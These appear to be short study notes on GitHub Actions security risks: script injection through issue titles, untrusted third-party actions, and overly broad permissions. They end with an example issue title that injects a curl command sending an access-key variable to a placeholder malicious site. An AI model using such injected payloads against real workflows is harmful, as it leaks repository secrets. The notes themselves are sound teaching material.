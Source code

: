 ## Security Concerns in the Context of GitHub Actions

1. Script Injections - a value, set outside a workflow, is used in a workflow; example: issue title used in a workflow shell command; workflow / command behavior could be changed
2. Malicious third-party actions - actions can perform any logic, including potentially malicious logic; example: a third-party action that reads and exports your secrets; only use trusted actions and inspect code of unknown / untrusted authors
3. Permission issues - consider avoiding overly permissive permissions; example: only allow checking out code (“read-only”); github actions supports fine-grained permissions control

### Simple examples of injectin
Opening issues with titles like
- ``"a"; curl http://my-bad-site.com?abc=$MINHA_ACCESS_KEY_ID"``